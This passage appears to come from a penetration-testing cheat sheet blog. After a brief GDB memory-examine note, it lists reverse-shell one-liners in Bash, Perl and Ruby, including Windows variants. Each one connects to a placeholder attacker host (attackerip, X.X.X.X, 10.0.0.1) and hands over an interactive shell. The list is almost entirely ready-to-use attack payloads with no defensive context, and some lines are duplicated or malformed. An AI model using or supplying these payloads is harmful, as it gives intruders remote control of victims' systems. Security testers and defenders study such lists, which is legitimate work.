 # Display values of specific memory locations
command : x/nyz (Examine)
n –> Number of fields to display ==>
y –> Format for output ==> c (character) , d (decimal) , x (Hexadecimal)
z –> Size of field to be displayed ==> b (byte) , h (halfword), w (word 32 Bit)
{% endhighlight %}

### BASH Reverse Shell
{% highlight bash %}
bash -i >& /dev/tcp/X.X.X.X/443 0>&1
 
exec /bin/bash 0&0 2>&0
exec /bin/bash 0&0 2>&0
 
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
 
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
 
exec 5<>/dev/tcp/attackerip/4444 cat <&5 | while read line; do $line 2>&5 >&5; done # or: while read line 0<&5; do $line 2>&5 >&5; done
exec 5<>/dev/tcp/attackerip/4444
 
cat <&5 | while read line; do $line 2>&5 >&5; done # or:
while read line 0<&5; do $line 2>&5 >&5; done
 
/bin/bash -i > /dev/tcp/attackerip/8080 0<&1 2>&1
/bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1
{% endhighlight %}

### PERL Reverse Shell
{% highlight bash %}
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

# for win platform
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};’
{% endhighlight %}

### RUBY Reverse Shell
{% highlight bash %}
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
 
# for win platform
ruby -rsocket -e 'c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
ruby -rsocket -e 'f=TCPSocket.open("attackerip","443").to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
{% endhighlight %}
